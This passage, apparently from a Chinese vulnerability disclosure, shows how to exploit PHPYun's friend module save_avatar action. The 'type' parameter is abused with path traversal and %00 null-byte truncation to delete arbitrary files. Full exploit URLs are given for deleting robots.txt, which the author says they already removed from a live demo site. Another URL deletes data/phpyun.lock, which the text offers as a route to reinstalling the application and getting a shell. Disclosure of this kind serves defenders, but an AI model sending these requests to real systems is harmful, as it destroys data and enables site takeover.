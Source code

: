![](img/2413062306c85e7c6bb6efe92abebb96d16538a2.jpg)

这样先转义入库了。 然后就按照这样再请求一次。

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00

再请求一次 出库, 然后就又能截断 成功删除了 robots.txt

测试的时候把 demo 的 robots.txt 删掉了 [`www.**.**.**.**/robots.txt`](http://www.**.**.**.**/robots.txt) 已经 404 了。

你们自己添加上去一下把。

进一步的利用的话 我们可以先删除 lock 然后重装进行 getshell

/friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../data/phpyun.lock%00

这个需要请求两次。

![](img/2412310068e8f87386bb063be149663c66e775c1.jpg)

![](img/24123107964bbe5960f5f58967f65777110b8e10.jpg)
